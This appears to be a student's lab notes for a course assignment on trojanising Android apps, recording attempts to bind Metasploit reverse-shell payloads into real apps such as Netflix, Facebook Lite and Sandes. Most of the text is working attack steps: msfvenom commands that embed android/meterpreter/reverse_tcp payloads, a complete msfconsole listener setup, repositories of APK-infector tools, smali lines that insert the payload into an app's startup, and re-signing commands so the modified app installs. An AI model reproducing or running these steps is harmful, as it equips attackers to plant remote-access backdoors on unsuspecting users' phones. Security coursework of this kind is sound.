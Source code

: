 http://gauss.ececs.uc.edu/Courses/c653/homework/assgn6.pdf

# Injecting into a benign app

https://apps.evozi.com/apk-downloader/?id=com.netflix.mediaclient


## injecting onto linux

### for installing apktool for decompiling

Linux:

    Download Linux wrapper script (Right click, Save Link As apktool)
    Download apktool-2 (find newest here)
    Rename downloaded jar to apktool.jar
    Move both files (apktool.jar & apktool) to /usr/local/bin (root needed)
    Make sure both files are executable (chmod +x)
    Try running apktool via cli

apparently we can also use something like msfvenom like

### open source tools available

from : https://secnhack.in/multiple-ways-to-embed-a-payload-in-an-original-apk-file/

`msfvenom -x com.netflix.mediaclient_35512_apps.evozi.com.apk -p android/meterpreter/reverse_tcp lhost=192.168.1.10 lport=4444 -o netflix.apk`

on console

msfconsole
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set lhost 192.168.1.10
set lport 4444
run

using apk binder

git clone https://github.com/kinghacker0/Apk-Binder
cd Apk-Binder/
bash apk-binder.sh

git clone https://github.com/ivam3/embed.git
cd embed/
bash set-apktool


git clone https://github.com/PushpenderIndia/apkinfector.git
cd apkinfector/
python3 infector.py

git clone https://github.com/Screetsec/TheFatRat.git
cd TheFatRat
chmod +x setup.sh
bash setup.sh

git clone https://github.com/M4sc3r4n0/Evil-Droid.git
cd Evil-Droid
chmod +x evil-droid
bash evil-droid

# trying the msfvenom

msfvenom -x Sandes-Apk-v2.2.19.apk -p android/meterpreter/reverse_tcp lhost=192.168.1.10 lport=4444 -o sandesha.apk

### requirements
apksigner
apktool
zipalign

This always fails with a png file error for some reason

# trying msfvenom method with another apk

https://secnhack.in/perfectly-inject-a-payload-in-an-original-facebook-apk/

works in fb_lite apk. msfvenom.

fblite.apk
https://www.apkmirror.com/apk/facebook-2/lite/lite-10-0-0-6-140-release/facebook-lite-10-0-0-6-140-android-apk-download/download/?key=a605dc618942ae884172637cb5ceb0a0a450565a

msfvenom -x fb_lite.apk -p android/meterpreter/reverse_tcp lhost=192.168.1.10 lport=4444 -o fb.apk

# trying the manual way

https://www.youtube.com/watch?v=6SaZqm9c1W0

msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.132 LPORT=4444 R > payload.apk

apktool d Sandes-Apk-v2.2.19.apk 
apktool d payload.apk

thunar to open files

where the activity starts 
in.nic.gimkerala.Call_SFU_three_Activity"

inside Call_SFU_three_Activity
invoke-super {p0, p1}, Lo/jm0;->onCreate(Landroid/os/Bundle;)V
invoke-static {p0}, Lcom/metsploit/stage/Payload;->start(Landroid/content/Context;)V

![](notcompiling.png)

This just results in the png error.
so same thing happening even when doing it manually

### signing

using key tool

![](20230522011218.png)

### using zipalign

![](20230522011410.png)

### dbugging png error

```
W: aapt: brut.common.BrutException: brut.common.BrutException: Could not extract resource: /prebuilt/linux/aapt_64 (defaulting to $PATH binary)
W: libpng error: Not a PNG file
W: ERROR: Failure processing PNG image /tmp/d20230522-106531-me31us/original/res/drawable-mdpi/people_28_filled.png
Error: Unable to rebuild apk with apktool
```

### sol 1

```
apktool d -f -r

I was also getting the same error. Use flags -f and -r during apktool d

Now during build there is no resource error.

```

### sol 2

```
Replacing apktool-dirty with apktool solves the problem. To do so, first remove existing apktool using the following command:
sudo apt remove apktool
sudo apt autoremove

Then follow the link for installing apktool:
https://ibotpeaches.github.io/Apktool/install/


```

however this downs't work for pngs however it solves the error of brute exception

### sol3 

Lets try manually changing the png file and replacing it with a copy of any alternate png file.

### using jarsigner

https://medium.com/modulotech/how-to-sign-an-unsigned-apk-using-command-line-636a056373a0

keytool -genkey -v -keystore <release_keystore.keystore> -alias <alias_name> -keyalg RSA -keysize 2048 -validity 10000

jarsigner -keystore <keystore_file>  -storepass <storepass> -keypass <keypass> <unsigned_apk_file> <alias_name>


`jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 -keystore my-release-key.keystore e-Sehat_1.10_Apkpure.apk sandes`

`zipalign -v 4 esehat.apk esehat_1.apk`

### Tools to look into for developement

https://github.com/PushpenderIndia/apkinfector

